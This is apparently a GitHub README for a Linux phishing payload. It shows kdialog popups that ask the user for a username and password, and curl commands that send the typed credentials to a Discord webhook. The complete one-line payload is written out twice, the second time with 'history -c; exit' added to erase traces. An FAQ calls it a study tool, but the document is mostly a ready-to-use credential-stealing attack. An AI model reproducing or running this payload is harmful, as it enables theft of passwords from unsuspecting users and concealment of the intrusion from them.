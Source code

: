  
# Standard Phishing Payload Using kdialog - Linux ✅

A script used to exfiltrate some input by a popup phishing based on linux systems using kdialog.

**Category**: Phishing

## Description

A script used to exfiltrate some input by a popup phishing based on linux systems using kdialog.

Opens a shell, get the data by a popup, send the input to a Discord webhook (or whatever you want to use for the exfiltration).

## Getting Started

### Dependencies

* Internet Connection for the Exfiltration

### Settings

* Set the Discord webhook
* Set the payload as you want

### cURL Command

With this payload you can send a post message using cURL shell command line to the webhook or whatever you choose for the exfiltration. You should replace the tag *\<message>* with the user input.

- `curl -H "Content-Type: application/json" -X POST -d "{\"content\": \"$(<message>)\"}" $WEBHOOK_URL);`

### kdialog - Popup command

KDialog can be used to show nice dialog boxes from shell scripts. You can't acquire multiple input in one popup, so you should use multiple popup. You can set the title, the message, the input type and so and so on...

- Simple message popup: `kdialog --title "<replace_with_your_title>" --msgbox "<replace_with_your_message>"; `
- Plaintext input popup (i.e. Username): `kdialog --title "<input_title>" --inputbox "<input_type_title>";`
- Hiddentext input popup (i.e. Password): `kdialog --title "<input_title>" --password "<input_type_title>" --default "password";`

### The Payload

The payload will merge the cURL command with the kdialog popup output (so the user input) as the following command...

```shell
$(curl -H "Content-Type: application/json" -X POST -d "{\"content\": \"$(kdialog --title "Popup Title" --msgbox "Insert your username and password for go on"; kdialog --title "Insert your Username" --inputbox "Username"; kdialog --title "Insert your Password" --password "Password" --default "password";)\"}" $WEBHOOK_URL);
```

You can put into the payload something that will clear the last shell history closing the shell at the end of the execution, adding this line `history -c; exit;`

```shell
$(curl -H "Content-Type: application/json" -X POST -d "{\"content\": \"$(kdialog --title "Popup Title" --msgbox "Insert your username and password for go on"; kdialog --title "Insert your Username" --inputbox "Username"; kdialog --title "Insert your Password" --password "Password" --default "password";)\"}" $WEBHOOK_URL); history -c; exit;
```

### FAQs

- Why put the entire payload in one line?
Generally it is recommended to divide the various steps at different times by dividing each command with some DELAY, in this case it is not recommended because phishing-type cyber attacks often tend to take a long time. How can you tell how long a user should take to enter their data? What if he doesn't remember his email? It is important to consider the slow factor, which, in theory, can take really long and in any case cannot be dynamically predicted.

- Why is used the 'cyber-attack' word?
This payload is intended to be a working tool for performing cybersecurity analysis and is not intended to harm malicious users in any way. This term is used for simplicity in speaking but is really meant to be a study tool that can be worked on.

## Credits

<h2 align="center"> Aleff :octocat: </h2>
<div align=center>
<table>
  <tr>
    <td align="center" width="96">
      <a href="https://github.com/aleff-github">
        <img src=https://github.com/aleff-github/aleff-github/blob/main/img/github.png?raw=true width="48" height="48" />
      </a>
      <br>Github
    </td>
    <td align="center" width="96">
      <a href="https://www.instagram.com/alessandro_greco_aka_aleff/">
        <img src=https://github.com/aleff-github/aleff-github/blob/main/img/instagram.png?raw=true width="48" height="48" />
      </a>
      <br>Instagram
    </td>
    <td align="center" width="96">
      <a href="https://www.linkedin.com/in/alessandro-greco-aka-aleff/">
        <img src=https://github.com/aleff-github/aleff-github/blob/main/img/linkedin.png?raw=true width="48" height="48" />
      </a>
      <br>Discord
    </td>
  </tr>
</table>
</div>